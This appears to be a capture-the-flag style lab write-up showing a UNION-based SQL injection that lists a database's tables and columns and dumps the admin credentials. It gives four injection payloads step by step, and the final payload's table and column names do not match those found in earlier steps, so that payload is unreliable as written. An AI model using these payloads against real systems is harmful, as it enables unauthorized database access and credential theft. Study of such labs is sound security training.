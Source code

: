 # SQL injection attack, listing the database contents on non-Oracle databases

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/44f1dca9-06a5-42f6-839d-2753727aa73c)

## Solution

First we use the payload `'+UNION+SELECT+'abc','def'--` to identify that the resultset has two columns and both return string.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8dcd2e77-970f-470d-ab75-796ec80a144f)

Next by modify the category using the payload `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` to get all tables from the database.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/775d35be-de0a-4245-adbc-e4477dc5c1bc)

By using `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_toydpv'--` we get the values inside the `users_toydpv` table and find the name of columns inside it `username_vzotbi` and `passowrd_wncrqd` .
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/fe89d2a9-0b47-46e6-be1a-4ddfbba36239)

The tables names retrieved above are then used in the payload`'+UNION+SELECT+username_vztobi,+password_wncrqd+FROM+users_abcdef--` to list the username and password. Here we find out the admin login username and password.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/1c2beb84-a595-4edb-8b78-880a49a0896c)

The login information retrieved above is then used to successfully access the admin account.
![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/4db8861c-3582-4c0a-b827-deaf90a37e9a)
